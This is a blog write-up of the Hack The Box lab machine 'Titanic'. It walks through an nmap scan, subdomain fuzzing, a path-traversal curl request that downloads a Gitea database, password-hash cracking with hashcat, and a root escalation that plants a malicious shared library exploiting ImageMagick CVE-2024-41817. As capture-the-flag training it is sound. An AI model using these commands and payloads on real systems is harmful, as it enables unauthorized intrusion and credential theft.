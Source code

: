 +++
title = "HTB - Titanic"
date = "2025-04-20"
author = "dax"
cover = ""
tags = ["flask", "gitea", "path-traversal", "hashcat", "magick", "CVE-2024-41817"]
keywords = ["hacking", "htb", "titanic", "hack the box"]
description = "Write-up of Hack The Box easy machine Titanic"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - Titanic
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Thu Apr 17 19:38:46 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp titanic.htb
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Aggressive OS guesses: Linux 4.15 - 5.19 (98%), Linux 5.0 - 5.14 (94%), Linux 3.2 - 4.14 (94%), Linux 4.15 (94%), Linux 2.6.32 - 3.10 (93%), Linux 5.0 (93%), OpenWrt 21.02 (Linux 5.4) (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%), Linux 2.6.32 (92%), Linux 5.10 - 5.15 (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 37.829 days (since Mon Mar 10 23:45:24 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   19.48 ms 10.10.14.1
2   19.94 ms titanic.htb (10.10.11.55)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 19:39:18 2025 -- 1 IP address (1 host up) scanned in 32.02 seconds
```

## User exploit

When visiting web port 80, we can see an application that allows us to book boat tickets. By brute forcing the `Host` header, we can also find a `dev.titanic.htb` subdomain. 

```bash
ffuf -u http://titanic.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.titanic.htb' -fs 300-350
```

The `dev` subdomain leads us to a `Gitea` server, which is a self-hosted Github like server. We are able to create an account and find two public repositories owned by the `developer` account. The first one, `flask-app`, contains the code of the boat ticket booking app. By looking at `app.py`, we can see a clear path traversal vulnerability in the `/download` endpoint. 

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

The second one, `docker-config`, contains `docker-compose.yml` files for both `Gitea` and `mysql`. While there are credentials in the `mysql` configuration, what we are actually looking for is the path where the data directory is mounted in the `Gitea` container. 

```yaml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Now, we can do a little bit of recon on the Gitea file system by running the container locally. The first thing that comes up when we are accessing the configuration page is the default path for the SQLite database, `/data/gitea/gitea.db`. 

```bash
# Start an instance of Gitea for recon
docker run -p 3000:3000 -d --rm gitea/gitea
```

![](/img/htb/titanic/gitea_configuration.png)

Armed with this information, we can now go to the app and exploit the path traversal vulnerability to recover the database. 

```bash
curl --path-as-is -s -H $'Host: titanic.htb' $'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db' > gitea.db
```

In the `user` table, we can find the hashes for the `administrator` and `developer` users. However, they're not in a format that can be cracked by `hashcat` yet. We can use `Gitea To Hash Extractor` to convert them so that `hashcat` can crack them. The output format is `PBKDF2-HMAC-SHA256`, which is mode `10900`. 

```bash
python gitea_hash_extractor.py gitea.db
```

```batch
hashcat.exe -m 10900 titanic.hashes rockyou.txt
```

We successfully crack the hash for `developer`, which allows us to login using SSH and get the `user.txt` flag. 

## Root exploit

By doing some quick manual recon on the host, we can see a peculiar script in `/opt/scripts/identify_images.sh`. 

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

By having a look inside the `/opt/app/static/assets/images` directory, we can see that the `metadata.log` file is owned by `root` and is updated every minute. Additionally, the `magick` version installed (7.1.1-35) has a CVE (CVE-2024-41817) for an arbitrary code execution. These two findings combined allows us the elevate or privileges to the root user by crafting a malicious shared library containing a command to execute, placing it in the folder where `magick` is executed and waiting for the `root` user to start the script. There are multiple ways of getting the flag from there, but I did it in 2 steps: first I copied the flag out of `/root/`, and then I changed the permission for me to read it. 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait a minute for the script to execute...

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod 777 /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait another minute for the script to execute...

cat /dev/shm/.dax/root.txt
```

## Resources:

| Hyperlink                                                                          | Info                                                         |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| https://github.com/BhattJayD/giteatohashcat                                        | Gitea To Hash Extractor                                      |
| https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8 | Arbitrary Code Execution in `AppImage` version `ImageMagick` |
| https://github.com/go-gitea/gitea                                                  | Gitea                                                        |
| https://github.com/pallets/flask                                                   | Flask                                                        |
| https://github.com/hashcat/hashcat                                                 | hashcat                                                      |

